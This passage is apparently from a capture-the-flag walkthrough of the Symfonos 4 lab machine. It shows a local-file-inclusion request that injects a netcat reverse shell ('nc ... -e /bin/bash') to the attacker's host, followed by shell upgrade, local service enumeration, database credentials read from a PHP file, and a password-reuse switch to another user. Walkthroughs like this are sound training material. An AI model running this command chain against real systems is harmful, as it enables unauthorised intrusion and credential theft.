 **Getting a reverse shell**

First we set up a netcat listener on port 443, and then we run the following curl request.

```console
root@kali:~$ curl -s -b cookies_file.txt "http://192.168.179.138/sea.php?file=../../../../../../../var/log/auth&cmd=nc%20192.168.179.1%20443%20-e%20/bin/bash" | html2text -width 90 | tail -2
```

As we can see, we get a reverse shell with limited permissions.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.138] 46544
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@symfonos4:/var/www/html$ uname -a
uname -a
Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686 GNU/Linux
```

**Enumerating Services**

In the obtained result we see that the port 3306 belonging to MySQL and the port 8080 possibly a web application are running locally.

```console
www-data@symfonos4:/$ ss -antl
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         80               127.0.0.1:3306             0.0.0.0:*       
LISTEN    0         128              127.0.0.1:8080             0.0.0.0:*       
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*       
LISTEN    0         128                      *:80                     *:*       
LISTEN    0         128                   [::]:22                  [::]:*
```

**MySQL credentials**

The **atlantis.php** file located in the document root I found the MySQL credentials.

```console
www-data@symfonos4:/var/www/html$ head -n 5 atlantis.php
<?php
   define('DB_USERNAME', 'root');
   define('DB_PASSWORD', 'yVzyRGw3cG2Uyt2r');
   $db = new PDO("mysql:host=localhost:3306;dbname=db", DB_USERNAME,DB_PASSWORD);
```

## Privilege Escalation
### Password Reuse

With the MySQL password I switch to poseidon user as shown below:

```console
www-data@symfonos4:/var/www/html$ su poseidon
Password: yVzyRGw3cG2Uyt2r

poseidon@symfonos4:/var/www/html$ id
uid=1000(poseidon) gid=1000(poseidon) groups=1000(poseidon),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```
